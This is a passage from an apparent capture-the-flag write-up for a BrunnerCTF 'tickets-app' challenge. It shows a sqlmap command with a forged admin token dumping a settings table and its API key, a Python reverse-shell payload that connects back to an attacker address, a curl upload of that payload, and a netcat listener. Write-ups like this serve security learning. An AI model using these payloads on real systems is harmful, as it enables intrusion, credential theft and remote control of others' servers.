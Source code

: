 First we enumerated the database which revealed 3 tables we can dig into. The settings table is the first on the list, so lets start there and dump the table with the following command:

```
┌──(kali㉿kali)-[~/brunnerctf/challenges/Boot2Root/tickets-app-user]
└─$ sqlmap -u "https://tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz/api/search?name=test" --cookie="token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU2MTA1ODk0LCJ1c2VyIjoidGVzdCJ9.zCY3ZaxhOliQAiSvbyjUR1BrENh4bnCDrdRXhuDtVbg" -t settings --dump
```

The API key that we needed to use the upload module functionality is seen below from the table dump from sqlmap.

```
| id | key              | value                            |
|----|------------------|----------------------------------|
| 1  | site_name        | Tickets App                      |
| 2  | ctf_name         | BrunnerCTF                       |
| 3  | development_mode | false                            |
| 4  | api_key          | jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0 |
```
### Reverse shell

Now that we are able to upload a python file and execute it, we need to generate a payload and upload it to the box:

```python
import os
import pty
import socket
s=socket.socket()
s.connect(("IPADRR",PORT))
[os.dup2(s.fileno(),f) for f in(0,1,2)]
pty.spawn("/bin/bash")
```

To do the upload we used this curl command with the provided API key we got from the SQL injection attack:

```bash
curl -X PUT \                        
  'https://tickets-app-user-3eea27441b01d05c.challs.brunnerne.xyz/api/module?filename=revshell.py&apiKey=jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0' \
  -H 'accept: /' \
  -H 'Content-Type: application/octet-stream' \
  --data-binary '@revshell.py'
```

To be able to catch the reverse shell, you can set up a ngrok instance or whatever tool that is to your liking and then catch it with an listener `nc -lvnp 4444` remember to change your payload accordingly depending on the service you use.

![Reverse Shell](/assets/img/brunner/revshell.png)
